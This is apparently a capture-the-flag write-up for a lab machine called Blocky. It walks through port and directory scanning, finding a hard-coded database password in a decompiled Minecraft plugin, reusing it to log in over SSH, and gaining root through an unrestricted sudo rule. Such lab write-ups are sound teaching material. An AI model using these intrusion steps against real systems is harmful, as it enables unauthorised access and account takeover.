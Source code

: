 ```yaml
---
name: Blocky
date: 2025-07-23
kind: lab
difficulty: easy
platform: linux
---
```


First step will be to run an `nmap` port scan:

```
$ sudo nmap -sV -sC 10.10.10.37

Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-23 14:07 CEST
Nmap scan report for 10.10.10.37
Host is up (0.0099s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT     STATE  SERVICE VERSION
21/tcp   open   ftp     ProFTPD 1.3.5a
22/tcp   open   ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp   open   http    Apache httpd 2.4.18
|_http-title: Did not follow redirect to http://blocky.htb
|_http-server-header: Apache/2.4.18 (Ubuntu)
8192/tcp closed sophos
Service Info: Host: 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.25 seconds
```

- FTP is running under the "ProFTP" software
- SSH is listening on the regular port 22
- Apache is active on port 80
- We have a strange "closed" port 8192 (remote management software "Sophos")

Fetching the web server returns a redirect:

```html
$ curl 10.10.10.37

<!DOCTYPE html PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html>
  <head>
    <title>302 Found</title>
  </head>
  <body>
    <h1>Found</h1>
    <p>The document has moved <a href="http://blocky.htb">here</a>.</p>
    <hr />
    <address>Apache/2.4.18 (Ubuntu) Server at 10.10.10.37 Port 80</address>
  </body>
</html>
```

We'll add `10.10.10.37 blocky.htb` to `/etc/hosts` and try again:

![](./images/blockyhtb.png)

We have a Minecraft server website, and looking around I found a Log In page with Wordpress on it:

![](./images/login.png)

There is 1 post by "notch":

![](./images/notch.png)

`gobuster` directory searcher finds `/plugins`:

```bash
$ gobuster dir --url http://blocky.htb/ --wordlist /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://blocky.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/wp-content           (Status: 301) [Size: 313] [--> http://blocky.htb/wp-content/]
/plugins              (Status: 301) [Size: 310] [--> http://blocky.htb/plugins/]
/wp-admin             (Status: 301) [Size: 311] [--> http://blocky.htb/wp-admin/]
/wp-includes          (Status: 301) [Size: 314] [--> http://blocky.htb/wp-includes/]
/javascript           (Status: 301) [Size: 313] [--> http://blocky.htb/javascript/]
/wiki                 (Status: 301) [Size: 307] [--> http://blocky.htb/wiki/]
/phpmyadmin           (Status: 301) [Size: 313] [--> http://blocky.htb/phpmyadmin/]
```

On this page we can find two JAR (Java) files for download:

![](./images/jars.png)

JAR files are ZIP archives:

```bash
$ file BlockyCore.jar
BlockyCore.jar: Java archive data (JAR)

$ unzip BlockyCore.jar
Archive:  BlockyCore.jar
  inflating: META-INF/MANIFEST.MF
  inflating: com/myfirstplugin/BlockyCore.class

$ ls
com META-INF

$ ls META-INF
MANIFEST.MF

$ cat META-INF/MANIFEST.MF
Manifest-Version: 1.0


$ ls com/myfirstplugin/
BlockyCore.class

$ cat com/myfirstplugin/BlockyCore.class
<GARBAGE>
```

The `.class` file still contains unreadable compiled code. I can run it through a decompiler online:

```java
    package com.myfirstplugin;

public class BlockyCore {
   public String sqlHost = "localhost";
   public String sqlUser = "root";
   public String sqlPass = "8YsqfCTnvxAUeduzjNSXe22";

   public void onServerStart() {
   }

   public void onServerStop() {
   }

   public void onPlayerJoin() {
      this.sendMessage("TODO get username", "Welcome to the BlockyCraft!!!!!!!");
   }

   public void sendMessage(String username, String message) {
   }
}
```

There is mention of SQL credentials with password `8YsqfCTnvxAUeduzjNSXe22`. This password for the Wordpress login with the username we found (`notch`) does not work. But when I try the SSH service with the same credential I have better luck:

```bash
$ ssh notch@blocky.htb
notch@blocky.htb's password:
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Fri Jul  8 07:16:08 2022 from 10.10.14.29
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.
```

We can grab the user flag:

```bash
notch@Blocky:~$ cat user.txt
2f7a8438fdef15cf786cf0795d35****
```

It is trivial to escalate our privileges on this machine. One of the first commands you should always run on Linux is `sudo -l`:

```bash
notch@Blocky:~$ sudo -l

Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```

We can run all commands as root! Let's open our root session and grab that root flag:

```bash
notch@Blocky:~$ sudo -i
root@Blocky:~# cat /root/root.txt
073937b0ac9eee745668d33830d5****
```

That's it for today!
